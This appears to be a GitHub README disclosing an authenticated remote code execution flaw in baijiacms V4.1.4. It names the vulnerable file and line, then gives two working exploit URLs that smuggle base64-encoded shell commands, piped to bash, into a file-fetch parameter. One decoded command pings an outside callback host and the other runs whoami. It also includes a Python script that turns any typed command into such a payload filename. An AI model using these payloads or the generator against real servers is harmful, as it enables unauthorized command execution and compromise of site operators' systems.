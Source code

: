 # baijiacms-RCE
baijiacms background RCE


The address of the project: https://github.com/baijiacms/baijiacmsV4

Version: V4.1.4 20170105 FINAL

Environment:
+ php 5.5.38
+ nginx 1.15
+ mysql 5.7.27
+ 20.04.1 - Ubuntu



Leak point in  includes/baijiacms/common.inc.php
Line 654.

![图片](https://user-images.githubusercontent.com/51741690/202916918-cb2b4576-d20b-4033-9fd4-da7cf3e4bff9.png)



# Use it
The system is designed to compress images. Therefore, to take advantage of this vulnerability, you need to log in to the background first and set the image compression ratio in "Attachment Settings", otherwise the code cannot run here.

![图片](https://user-images.githubusercontent.com/51741690/202916939-4b14710d-5528-4b78-89a1-6afdb18de143.png)



EXP1：http://192.168.0.64/baijiacmsV4-4.1.4/index.php?mod=site&act=public&do=file&op=fetch&url=http://127.0.0.1/poc.;echo${IFS}cGluZyBwb2MuZXhyNm1xLmNleWUuaW8gLWMgNA==|base64${IFS}-d|bash;&status=1&beid=1
![图片](https://user-images.githubusercontent.com/51741690/202916957-60d79a4a-f01e-4e89-9a6c-4d9e13c733eb.png)




EXP2：http://192.168.0.64/baijiacmsV4-4.1.4/index.php?mod=site&act=public&do=file&op=fetch&url=http://127.0.0.1/whoami.;echo${IFS}d2hvYW1p|base64${IFS}-d|bash;&status=1&beid=1
![图片](https://user-images.githubusercontent.com/51741690/202916979-b8c559ac-a262-4d58-9494-1341d12b3d80.png)



The poc can be generated using the following code, and then open the web service to ensure that the file is accessible.

```python
import base64

webpath = "/home/ubuntu/test/"
cmd = input("cmd>>> ")


b64cmd = base64.b64encode(cmd.encode()).decode()

payload = f"echo {b64cmd}|base64 -d|bash"

print(payload)
payload = payload.replace(' ','${IFS}')
print(payload)

name = input("name>>>")
payload = f"{name}.;{payload};"
print(payload)

with open(file=webpath+payload,mode='w')as f:
    f.write('1')

```
